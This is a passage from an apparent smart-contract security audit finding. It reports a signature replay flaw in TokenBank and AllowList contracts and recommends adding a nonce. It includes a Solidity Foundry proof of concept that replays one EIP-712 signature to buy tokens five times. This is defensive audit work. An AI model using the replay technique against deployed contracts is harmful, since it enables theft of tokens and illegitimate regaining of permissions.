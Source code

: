 This same problem is present in the `AllowList` contract, which allows users to reuse signatures to regain their permissions if they are removed.

**Impact:** On `TokenBank`:
- Buyers can reuse signatures to purchase infinite tokens by paying the cost to obtain a single signature

On `AllowList`:
- user replays selfAllowUser signature to add themselves to the allow list again.
- A malicious admin who was removed as an admin can replay a signature after he was removed to re-enable themselves.

**Proof of Concept:** Add the next PoC to `TokenBankTest.t.sol`:
```solidity
    function test_cyfrin_buyTokenOCP_offchain_ReUseSignature() public {
        uint256 TOKENS_TO_PURCHASE = 1;
        _addCentralToTokenBank(60e6, true, 50_000);
        // seed inventory
        centralTokenProxy.mint(address(tokenBankProxy), uint64(5));
        address to = getDomesticUser(2);
        // register authorized signer in allowlist
        (address signer, uint256 sk) = makeAddrAndKey("BUY_SIGNER");
        bytes4[] memory asel = new bytes4[](1);
        asel[0] = bytes4(keccak256("addAuthorizedSigner(address)"));
        accessMgrProxy.setTargetFunctionRole(address(allowListProxy), asel, ADMIN_TOKEN_ID);
        accessMgrProxy.grantRole(ADMIN_TOKEN_ID, address(this), 0);
        allowListProxy.addAuthorizedSigner(signer);
        // build EIP-712 signature for BuyToken(investor, token, amount)
        bytes32 typeHash = keccak256("BuyToken(address investor, address token, uint256 amount)");
        bytes32 structHash = keccak256(abi.encode(typeHash, to, address(centralTokenProxy), TOKENS_TO_PURCHASE));
        bytes32 digest = MessageHashUtils.toTypedDataHash(tokenBankProxy.getDomainSeparator(), structHash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(sk, digest);
        bytes memory sig = abi.encodePacked(r, s, v);
        vm.startPrank(to);
        tokenBankProxy.buyTokenOCP(signer, address(centralTokenProxy), TOKENS_TO_PURCHASE, sig);
        tokenBankProxy.buyTokenOCP(signer, address(centralTokenProxy), TOKENS_TO_PURCHASE, sig);
        tokenBankProxy.buyTokenOCP(signer, address(centralTokenProxy), TOKENS_TO_PURCHASE, sig);
        tokenBankProxy.buyTokenOCP(signer, address(centralTokenProxy), TOKENS_TO_PURCHASE, sig);
        tokenBankProxy.buyTokenOCP(signer, address(centralTokenProxy), TOKENS_TO_PURCHASE, sig);
        // to receives domestic child tokens
        assertEq(d_childTokenProxy.balanceOf(to), 5);
        vm.stopPrank();
    }

```

**Recommended Mitigation:** Consider adding a `nonce` to the hash that is signed. Refer to these articles to get more familiar with signature replay attacks
- [Mitigate Against Nonce Replay Attacks](https://www.remora-projects.io/blog/replay-attack-in-ethereum#mitigating-against-missing-nonce-replay-attacks)
- [Signature Replay Attacks](https://dacian.me/signature-replay-attacks#heading-missing-nonce-replay)
